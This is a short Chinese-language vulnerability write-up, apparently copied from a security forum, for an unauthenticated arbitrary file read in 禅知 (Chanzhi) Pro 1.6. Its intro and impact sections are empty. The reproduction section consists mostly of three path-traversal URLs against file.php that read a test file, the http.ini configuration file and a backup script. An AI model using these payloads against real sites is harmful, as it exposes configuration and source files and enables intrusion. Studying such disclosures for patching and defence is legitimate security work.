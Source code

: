# 禅知Pro 1.6 前台任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3359](https://www.zhihuifly.com/t/topic/3359)

# 禅知 Pro 1.6 前台任意文件读取

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在网站根目录C:\xampp\chanzhi\www新建一个测试文件test.php

![image](img/8e32133e24404b6dde0031f0749526be.png)

执行payload查看文件内容：

```
http://0-sec.org/file.php?pathname=../test.php&t=txt&o=source 
```

![image](img/632b35512d05b86d4f7ab6311b0c8a16.png)

执行payload来查看程序的配置文件：

```
http://0-sec.org/file.php?pathname=../http.ini&t=txt&o=source 
```

![image](img/cd3e3cc4e3e49c97362cf023bb50eb0b.png)

跨目录读取文件（前提是有目录权限）：

```
http://0-sec.org/file.php?pathname=../../bin/php/backup.php&t=txt&o=source 
```